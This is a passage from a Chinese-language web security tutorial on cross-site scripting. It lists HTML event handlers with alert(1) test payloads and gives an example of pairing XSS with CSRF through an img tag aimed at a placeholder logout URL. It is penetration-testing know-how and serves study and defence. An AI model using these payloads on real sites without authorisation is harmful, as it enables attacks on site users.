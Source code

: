 若无法弹窗验证或者控制台验证可以尝试组合 CSRF 使用

```
<img src="http://example.com/logout">
```

### 1.4. 常用触发事件

加载事件

```
onload=alert(1);	         # 元素加载完成时触发
onerror=alert(1);         # 元素加载失败时触发
```

鼠标事件

```
onclick=alert(1);	     # 点击元素时触发
ondblclick=alert(1);      # 双击元素时触发
oncontextmenu=alert(1);   # 右击元素时触发
onmousemove=alert(1);	 # 鼠标移动到元素上方时触发
onmouseover=alert(1);	 # 鼠标悬停在元素上方时触发
onmousedown=alert(1);	 # 鼠标按下时触发
onmouseup=alert(1);	     # 鼠标松开时触发
onmouseenter=alert(1);    # 鼠标进入元素时触发
onmouseleave=alert(1);    # 鼠标离开元素时触发
```

表单事件

```
onfocus=alert(1);        # 元素获得焦点
onblur=alert(1);         # 元素失去焦点
oninput=alert(1);        # 用户输入时触发
onselect=alert(1);       # 用户选中文本时触发
onsubmit=alert(1);       # 表单提交时触发
onreset=alert(1);        # 表单重置时触发
onchange=alert(1);       # 输入框, 下拉框等内容变更后失焦
```

键盘事件

```
onkeydown=alert(1);      # 按键按下
onkeypress=alert(1);     # 按键按下并产生字符
onkeyup=alert(1);        # 按键释放
```

## 2. 数据提交类

在目标网站提交使用 XSS 构造的数据.

### 2.1. 测试步骤

### 2.1.1. 查找注入点
